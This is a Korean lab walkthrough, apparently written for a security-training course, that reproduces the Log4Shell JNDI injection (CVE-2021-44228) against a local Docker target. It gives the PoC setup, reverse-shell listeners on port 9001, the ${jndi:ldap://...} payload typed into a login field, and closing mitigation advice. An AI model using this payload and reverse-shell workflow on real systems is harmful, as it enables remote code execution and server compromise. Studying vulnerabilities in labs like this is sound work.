










# Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

> 화이트햇 스쿨 3기 (12반) - [@이태용](https://github.com/GunP4ng)

[영어 버전(English version)](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

Apache Log4j 2는 Log4j의 업그레이드로, 이전 버전인 Log4j 1.x에 비해 상당한 개선을 제공하며, Logback 아키텍처의 몇 가지 고유한 문제를 해결하면서 Logback에서 사용할 수 있는 많은 개선 사항을 제공합니다.

2021년 12월, Apache Log4j2에서 0-day Exploit 이 발견되었습니다. Log4j의 JNDI 지원은 해결할 수 있는 이름을 제한하지 않습니다. 일부 프로토콜은 다음과 같습니다 `rmi:` 와 `ldap:` 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

**참고 자료 (References):**

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649
- https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file
- [https://velog.io/@isang/CVE-2021-44228log4shell-취약점-POC-실습](https://velog.io/@isang CVE-2021-44228log4shell-%EC%B7%A8%EC%95%BD%EC%A0%90-POC-%EC%8B%A4%EC%8A%B5)
- https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228


## 환경 설정 (Environment Setup) - Attacker

### 1. PoC 코드

git clone으로 PoC 코드를 설치합니다

```bash
git clone https://github.com/kozmer/log4j-shell-poc
```

python 라이브러리를 설치합니다

```bash
pip install -r requirements.txt
```

### 2. Jdk 설치

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
Linux x64
jdk-8u202

> jdk 설치하지 않을 시 PoC 코드가 동작하지 않습니다

tar 명령어로 압축 해제합니다

```bash
tar -zxvf jdk-8u202-linux-x64.tar.gz
```

jdk1.8.0_202 폴더를 /log4j-shell-poc폴더로 이동합니다

```bash
sudo mv jdk1.8.0_202/ log4j-shell-poc/
```

jdk1.8.0_202 폴더의 이름을 jdk1.8.0_20으로 수정합니다

```bash
mv jdk1.8.0_202/ jdk1.8.0_20
```



### 3. pwncat 설치

[pwncat](https://github.com/calebstewart/pwncat)은 reverse shell handler 입니다

```bash
#pip 업그레이드
pip3 install --upgrade pip

#pwncat 설치
pip3 install pwncat-cs
```

- pwncat은 python3.9 이상 필요 (ERROR: No matching distribution found for pwncat-cs)

아래의 명령을 통해 pwncat 을 실행할 수 있습니다

```bash
python3 -m pwncat -lp 9001 -m linux
```

Exploit을 성공하기 전까지 아래의 상태를 유지합니다




## 환경설정 (Environment Setup) - Victim

### 1. Docker setup

log4j-shell-poc 폴더로 이동한 뒤 아래의 명령어를 입력합니다

```bash
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

8080 포트로 웹 서비스가 시작됩니다




## Exploit

### 1. Attacker : netcat 시작

아래 명령어로 reverse shell 접속용 netcat 을 시작합니다

```bash
nc -lvnp 9001
```



### 2. Attacker : pwncat 실행

```bash
python3 -m pwncat -lp 9001 -m linux
```



### 3. Attacker : Exploit(poc.py)

```bash
python3 poc.py --userip localhost --webport 8001 --lport 9001
# 8001 포트 : 웹접속 
# 9001 포트 : 리버스 쉘 접속용
```



### 4. Victim : Web

아래 명령어로 취약한 웹서버를 실행시킬 수 있습니다

```bash
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

8080포트로  시작됩니다.



로그인 창에 다음과 같이 입력합니다

```bash
username  : ${jndi:ldap://localhost:1389/a}
password  : hello!
```

### 5. Exploit

Exploit(poc.py) 창에 다음과 같은 메시지가 뜨게 됩니다



pwncat 창에 다음과 같이 뜨게 됩니다



back을 입력하면 remote로 서버에 접속할 수 있습니다



서버의 파일에 접근이 가능한 것을 볼 수 있습니다


> 대응 방법

- Log4j를 2.15.0 이상으로 업데이트하여 대응할 수 있습니다
- **Log4j 2.15.0** 이전 버전에서도 **JNDI Lookup**을 비활성화하여 취약점을 완화할 수 있습니다.